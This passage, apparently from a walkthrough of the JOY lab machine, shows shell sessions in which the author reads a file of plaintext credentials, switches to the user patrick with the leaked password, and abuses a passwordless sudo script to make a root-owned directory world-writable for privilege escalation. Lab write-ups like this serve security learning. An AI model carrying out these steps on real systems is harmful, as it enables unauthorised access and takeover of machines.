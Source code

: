 ```
www-data@JOY:/var/www/tryingharderisjoy# ls
ossec  pealthe.php
www-data@JOY:/var/www/tryingharderisjoy# cd ossec/
www-data@JOY:/var/www/tryingharderisjoy/ossec# ls
CONTRIB		  img	     lib	     patricksecretsofjoy  setup.sh
css		  index.php  LICENSE	     README		  site
htaccess_def.txt  js	     ossec_conf.php  README.search	  tmp
www-data@JOY:/var/www/tryingharderisjoy/ossec# cat patricksecretsofjoy 
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?
www-data@JOY:/var/www/tryingharderisjoy/ossec
```

With that, we can simply change to `patrick` using the `su` command: 

```
su patrick
Password: apollo098765
patrick@JOY:/var/www/tryingharderisjoy/ossec$ id
id
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner),1001(ftp)
patrick@JOY:/var/www/tryingharderisjoy/ossec$
```

#### Patrick to Root


Running `sudo -l` to check what sudo permission does `patrick` has: 

```
atrick@JOY:~/script$ sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test
```

Running that script as sudo allow us to change any file from the current permission, to the permission we give it to. We can't access the `/script` folder due to the folder permission. So what I did was I run the script to change the `/script` directory permission to 777, so that i can gain access to this directory and edit the `test` file: 

```
# Changing script permission 

patrick@JOY:~$ sudo script/test
sudo script/test
I am practising how to do simple bash scripting!
What file would you like to change permissions within this directory?
../script
What permissions would you like to set the file to?
777
Currently changing file permissions, please wait.
Tidying up...
Done!
patrick@JOY:~$ ls -l | grep script
drwxrwxrwx 2 root    root    4096 Aug  6 20:03 script
```
